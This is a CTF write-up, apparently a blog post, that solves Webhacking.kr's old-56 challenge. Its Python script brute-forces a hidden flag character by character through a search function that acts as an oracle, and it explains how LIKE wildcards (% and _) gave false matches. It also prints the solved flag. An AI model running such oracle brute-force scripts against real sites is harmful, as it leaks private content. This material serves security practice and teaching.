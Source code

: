 ```yaml
---
layout: post
title: "[Webhacking.kr] Old-56 writeup"
categories: hacking writeup web
---
```


# Introduction

The challenge is quite easy to understand. You can not enter the admin page, you can enter the
guest page. You also have a search function to search for content in all pages.

![Main](/assets/images/old-56/main.png)

Let's try the search function by using content inside of `guest`

![Search](/assets/images/old-56/search.png)

# Let's find a way to get in

The first thing to try is SQL Injection. Didn't work.

The second thing to try is to find some kind of known vulnerabilty in `strpos` function.
I had a feeling that it might be using `strpos` for the search function. Nothing relevant found.

But one thing I forgot, the content inside admin page is very likely a flag. A search
with `flag{` as the query returned the admin page. An important clue!

![Flag Search](/assets/images/old-56/flag_search.png)

# Bruteforce the flag

It is obvious that the flag can be bruteforced in a matter of minutes. Let's write a short script

```python
import requests, string

cookies = {
    'PHPSESSID': '8sgmg9vml43qsn1gktg85jipj5',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'https://webhacking.kr',
    'Connection': 'keep-alive',
    'Referer': 'https://webhacking.kr/challenge/web-33/index.php',
    # 'Cookie': 'PHPSESSID=8sgmg9vml43qsn1gktg85jipj5;
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

current = 'flag{'

def correct(c):
    data = {
    'search': current + c
    }

    response = requests.post('https://webhacking.kr/challenge/web-33/index.php',
                         cookies=cookies, headers=headers, data=data)

    return "admin" in response.text

def brute():
    global current
    while current[-1] != '}':
        last_correct = False
        print("trying ...")
        for c in list(string.ascii_lowercase + string.punctuation):
            print(f"{current + c}")
            if correct(c):
                current = current + c
                print(f"current: {current}")
                last_correct = True
                break

        if last_correct == False:
            print("no matches! stopping")
            break

brute()
```

After a couple of tries, I found that `%` was accepted in many places. So the result was `flag{himiko%a%cute%dont%hink%o%%`, which was close but not what I wanted.

So I decided to remove the `%` in the code, and tried again.

```python
#...
    for c in list(string.ascii_lowercase + string.punctuation.replace('%', '')):
#...
```

![Result1](/assets/images/old-56/result1.png)

Gotcha, you man of culture! But wait, that one was not correct either. Later, I found that the underscore character `_` was just like `%`, how annoying.

And after a bit of tuning, I found the correct flag!

`flag{himiko_toga_is_cute_dont_you_think_so?}`
